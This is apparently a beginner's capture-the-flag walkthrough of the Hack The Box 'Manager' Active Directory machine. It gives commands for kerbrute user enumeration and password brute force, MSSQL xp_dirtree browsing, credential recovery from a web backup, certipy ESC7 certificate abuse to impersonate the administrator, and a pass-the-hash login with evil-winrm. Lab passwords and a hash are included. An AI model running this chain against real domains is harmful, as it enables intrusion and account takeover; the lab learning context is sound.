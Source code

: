 # Manager -htb(Compi)(my first AD box)


nmap:

	80,88,135,139,389,445,464,593,636,1433.3268.3269

This is my first AD windows machine , idk shit.

Tools im gonna use to enumerate for usernames :
	Kerbrute.

`./kerbrute_linux_amd64 userenum --dc 10.10.11.236 -d manager.htb /home/kali/Desktop/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

that gave us usernames , its a start.

```
2023/10/22 15:13:03 >  [+] VALID USERNAME:       ryan@manager.htb
2023/10/22 15:13:10 >  [+] VALID USERNAME:       guest@manager.htb
2023/10/22 15:13:13 >  [+] VALID USERNAME:       cheng@manager.htb
2023/10/22 15:13:16 >  [+] VALID USERNAME:       raven@manager.htb
2023/10/22 15:13:33 >  [+] VALID USERNAME:       administrator@manager.htb
2023/10/22 15:14:11 >  [+] VALID USERNAME:       Ryan@manager.htb
2023/10/22 15:14:16 >  [+] VALID USERNAME:       Raven@manager.htb
2023/10/22 15:14:34 >  [+] VALID USERNAME:       operator@manager.htb
```

`./kerbrute_linux_amd64 bruteuser --dc 10.10.11.236 -d manager.htb /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt Operator -v`

Using the command above, 
found password for Operator user : `operator`

---

Using operator user to logon port 1433 which is MSSQL server:
`impacket-mssqlclient -p 1433 -windows-auth -dc-ip 10.10.11.236 "manager.htb/Operator:operator"@10.10.11.236`


inside MSSQL use these commands to traverse:
	To list databases, you can use the following SQL command:
		`SELECT name FROM sys.databases;`

To switch to that database use:
	`Use databasename`

To list tables in that database:
	`SELECT table_name FROM information_schema.tables;`

To access particular table in a database:
	`SELECT * FROM tablename;`




****Important****:

	so i was stuck in at mssqlclinet , when i type help there should be more options but i got only 5, so i had to reinstall python3 immpacket to work.


Holy shit dude , I was lost for so long in this part xp_dirtree that I got tunnel visioned .
I was only giving concern with what xp_dirtree initally outputted. When I typed xp_dirtree in the mssql client it showed 7 directories and i was searching them over and over again .
I found a .xml file but I couldn't find out what to do. chat gpt and google didnt help because I was asking the wrong questions.

What I did now to fix it,  was:

	There was a IIS website running.
	So it was hosted from someplace, a directory. The sites files are stored there.
	This is where xp_dirtree shines. This command is notorious for traversing directories and listing out files. so what did i do ?.

searched google for IIS website root location , found it:
		`xp_dirtree C:\inetpub\wwwroot`
boom I found the backup of the files in zip.

Downloaded the zip with curl

`sudo curl http://manager.htb/website-backup-27-07-23-old.zip --output website-backup-27-07-23-old.zip`

explored the zip and found user "Raven 's"  password, along with other information.

****don't worry every now and then we get tunnel visioned while hacking. Always think big and out of the box , literally. and dont think hard too much , because in the end , things always turn out to be quite simple.***


----
##### Raven creds:

```
raven@manager.htb
R4v3nBe5tD3veloP3r!123

```

After searching for shits , i found that we need to use this in WinRM:
	Using Evil Win rm we can access the raven windows machine and get the user flag.

	```
	evil-winrm - u raven -i 10.10.11.236
	then password prompt will appear

-----


## ***PRIV ESC***

Figured out this was a AD CS attack, after getting all the hints and also since this is a Windows AD machine, it was bound to have some sort of certificate abuse.


Steps to priv esc:

	Go sudo and download certipy-ad by oliver lyak. pip3 install certipy.

  then using raven creds type this:
  
		  `certipy find -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -enabled
    
This will let you know which type of Certificate template you are vulnerable from. In my case this was `ESC7` certificate template. A certificate template signifies a blueprint for creating digital certificates with specific characteristics and purposes. So there are several misconfigurations during the creation of these templates.

Now the next step is , since we know what our template is , we should directly google it and go to hacktricks. A great article with how to perfectly abuse this template is laid out. Just follow and get root.

 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7

Do attack vector 2.

This article also helped in explain the whys and hows and whats.
	https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/#resources

Basically we will impersonate a Higher level user through the misconfigured certificates in the AD machine. These are time sensivite so copy-paste fast.


	1	certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

	2    certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

	3    certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb

You will get error but still it will ask you to save private key, just enter yes. 
Note down the `request id` : 14

	 4    certipy ca -ca 'manager-DC01-CA' -issue-request 14 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

Till this point, all the commands were time sensitive, meaning you had to enter them fast 1 after another.
If you get access denied , that means you have to enter those previous 3 commands faster.
Just copy paste .

Now we issue the cert/private key and then use that key hash and login with `Evil winRM`.

	5    certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 14

Once we have the certificate, we can use the cert to obtain the cred hash and kerberos ticket of the target DA account using the Certipy `auth` command as shown below:
	
	certipy auth -pfx administrator.pfx


**ERROR** fix :
	If you find this **error** from Linux: `**Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)**` it because of your local time, you need to synchronise the host with the DC. There are a few options

		sudo timedatectl set-ntp 0  - dont use this.
		sudo rdate -n [Machine IP] - using this worked.

after this :

	certipy auth -pfx administrator.pfx
	This generated administrator hash which we will use to login with evil winrm:
	hash : `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`
	

---

EVIL WIN RM :
---
	LOGIN with and get ROOT FLAG EZ PZ:

`evil-winrm -i 10.10.11.236 -u administrator -p aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`



This was my first Active directory machine and it was fun.
